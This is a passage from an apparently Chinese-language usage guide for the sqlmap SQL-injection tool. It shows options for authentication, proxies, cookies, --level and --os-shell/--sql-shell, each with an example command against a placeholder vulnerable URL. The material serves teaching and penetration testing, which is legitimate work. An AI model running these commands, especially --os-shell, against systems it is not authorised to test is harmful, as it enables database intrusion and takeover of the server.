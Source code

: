     :

    ```
    sqlmap -u "http://example.com/vulnerable.php?id=1" --level=5
    ```

#### **5. 认证和代理**

- **`--auth-type [type]`**:

  - **说明**: 指定认证类型，如 `Basic`、`Digest`、`NTLM` 等。

  - 示例

    :

    ```
    sqlmap -u "http://example.com/vulnerable.php?id=1" --auth-type=Basic --auth-cred="user:pass"
    ```

- **`--proxy [proxy]`**:

  - **说明**: 使用代理服务器进行测试。

  - 示例

    :

    ```
    sqlmap -u "http://example.com/vulnerable.php?id=1" --proxy="http://127.0.0.1:8080"
    ```

- **`--cookie [cookie]`**:

  - **说明**: 使用指定的 cookie 进行认证。

  - 示例

    :

    ```
    sqlmap -u "http://example.com/vulnerable.php?id=1" --cookie="SESSIONID=abcd1234"
    ```

#### **6. 数据库管理**

- **`--os-shell`**:

  - **说明**: 如果 SQL 注入漏洞允许，尝试获取操作系统 shell。

  - 示例

    :

    ```
    sqlmap -u "http://example.com/vulnerable.php?id=1" --os-shell
    ```

- **`--sql-shell`**:

  - **说明**: 如果 SQL 注入漏洞允许，尝试获取 SQL shell。
